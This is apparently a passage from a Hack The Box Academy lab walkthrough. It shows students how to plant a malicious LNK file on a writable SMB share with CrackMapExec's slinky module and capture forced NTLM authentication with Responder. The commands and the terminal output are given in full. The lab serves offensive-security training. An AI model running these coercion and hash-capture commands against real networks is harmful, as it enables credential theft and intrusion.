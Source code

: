 Students will notice the `READ, WRITE` permissions on the `Delevopment Share`, meaning that they are able to list the contents of the share and also write files to that share. Subsequently, students will have to use the `slinky` module in CrackMapExec, which will automatically verify the accessible shares and will place a malicious `lnk` file, and it will automatically force authentication to a machine that has `Responder` running. They will have to use the aforementioned module in CrackMapExec followed by specifying the options such as `SERVER=PWNIP` and `NAME=<filename>`.

Code: shell

```shell
crackmapexec smb STMIP -u htb-student -p 'HTB_@cademy_stdnt!' -M slinky -o SERVER=PWNIP NAME=test
```

```
┌─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ crackmapexec smb 10.129.228.187 -u htb-student -p 'HTB_@cademy_stdnt!' -M slinky -o SERVER=10.10.14.66 NAME=test
[!] Module is not opsec safe, are you sure you want to run this? [Y/n] y
SMB         10.129.228.187  445    WIN-41LARS8U72P  [*] Windows Server 2016 Standard 14393 x64 (name:WIN-41LARS8U72P) (domain:WIN-41LARS8U72P) (signing:False) (SMBv1:True)
SMB         10.129.228.187  445    WIN-41LARS8U72P  [+] WIN-41LARS8U72P\htb-student:HTB_@cademy_stdnt! 
SLINKY      10.129.228.187  445    WIN-41LARS8U72P  [+] Found writable share: Development Share
SLINKY      10.129.228.187  445    WIN-41LARS8U72P  [+] Created LNK file on the Development Share share
```

After successfully placing the malicious lnk file, students need to start `Responder` in a separate terminal tab.

Code: shell

```shell
sudo responder -I tun0
```

```
─[eu-academy-1]─[10.10.14.66]─[htb-ac-1008@htb-yq9zfr4swf]─[~]
└──╼ [★]$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]
    
<SNIP>

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.66]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-EQA2UZDV0BA]
    Responder Domain Name      [7SO1.LOCAL]
    Responder DCE-RPC Port     [45088]
[!] Error starting TCP server on port 80, check permissions or other servers running.
```